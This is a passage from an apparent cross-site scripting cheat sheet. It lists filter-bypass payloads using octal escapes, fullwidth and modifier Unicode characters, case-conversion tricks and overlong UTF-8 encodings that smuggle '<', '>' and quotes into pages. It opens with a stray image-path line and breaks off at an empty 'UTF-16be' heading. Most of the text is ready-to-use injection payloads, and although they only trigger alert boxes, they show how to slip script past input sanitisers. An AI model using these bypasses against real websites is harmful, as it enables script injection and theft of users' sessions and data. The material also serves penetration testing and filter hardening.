 ```html
<script>alert&DiacriticalGrave;1&DiacriticalGrave;</script>
```

### Bypass using Octal encoding

```javascript
javascript:'\74\163\166\147\40\157\156\154\157\141\144\75\141\154\145\162\164\50\61\51\76'
```

### Bypass using Unicode

```javascript
Unicode character U+FF1C FULLWIDTH LESS­THAN SIGN (encoded as %EF%BC%9C) was
transformed into U+003C LESS­THAN SIGN (<)

Unicode character U+02BA MODIFIER LETTER DOUBLE PRIME (encoded as %CA%BA) was
transformed into U+0022 QUOTATION MARK (")

Unicode character U+02B9 MODIFIER LETTER PRIME (encoded as %CA%B9) was
transformed into U+0027 APOSTROPHE (')
```

E.g : 
```
http://www.example.net/something%CA%BA%EF%BC%9E%EF%BC%9Csvg%20onload=alert%28/XSS/%29%EF%BC%9E/
```
%EF%BC%9E becomes >
%EF%BC%9C becomes <


Bypass using Unicode converted to uppercase

```javascript
İ (%c4%b0).toLowerCase() => i
ı (%c4%b1).toUpperCase() => I
ſ (%c5%bf) .toUpperCase() => S
K (%E2%84%AA).toLowerCase() => k

<ſvg onload=... > become <SVG ONLOAD=...>
<ıframe id=x onload=>.toUpperCase() become <IFRAME ID=X ONLOAD=>
```

### Bypass using UTF-8

```javascript
< = %C0%BC = %E0%80%BC = %F0%80%80%BC
> = %C0%BE = %E0%80%BE = %F0%80%80%BE
' = %C0%A7 = %E0%80%A7 = %F0%80%80%A7
" = %C0%A2 = %E0%80%A2 = %F0%80%80%A2
" = %CA%BA
' = %CA%B9
```

### Bypass using UTF-16be
